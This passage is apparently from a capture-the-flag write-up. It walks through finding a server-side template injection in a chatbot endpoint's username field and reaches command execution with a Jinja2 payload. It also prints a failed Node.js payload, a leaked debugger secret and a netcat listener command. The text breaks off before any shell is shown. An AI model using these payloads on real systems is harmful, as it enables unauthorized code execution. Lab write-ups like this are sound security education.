 Sending a normal post request gives us an error 500, let's try to specify the data type as the note suggests with the `Content-Type: application/json;charset=UTF-8` header and sending an empty json `{}` data.

We get an interesting error: `username parameter is required`, we can try to supply a username in the body payload:
```json
{
	"username":"admin"
}
```

This will result in a response containing:
```
Sorry, admin, our chatbot server is currently under development.
```

Our user-name gets put inside the string, can the usage of our unfiltered input lead to any new vulnerability?
I have tested with this payload:
```json
{
	"username":"#{{7*7}}"
}
```

And the response executed it printing the number 49, this confirm an SSTI (Server Side Template Injection) vulnerability.

Great, now we have to create a payload to get code execution, since before i saw Node.js being used in wappalyzer i crafted this:
```js
#{{root.process.mainModule.require('child_process'.spawnSync('ls').stdout}}
```

Turned out it was not Pug as i tough but the response told me it is jinja2 (Python) with a bunch of other info:
```
     var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "6RClTP6swWAaaJSJzz2I";
```

Along with an user name: `/home/azrael`.

I think i was actually lucky to made that error lol.
Anyway let's now try to make one for Jinja2:
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

This one succesfully printed the output of the `id` command, we now have achieved RCE.
Let's prepare a listener on our machine:
```bash
nc -lvnp 1234
```

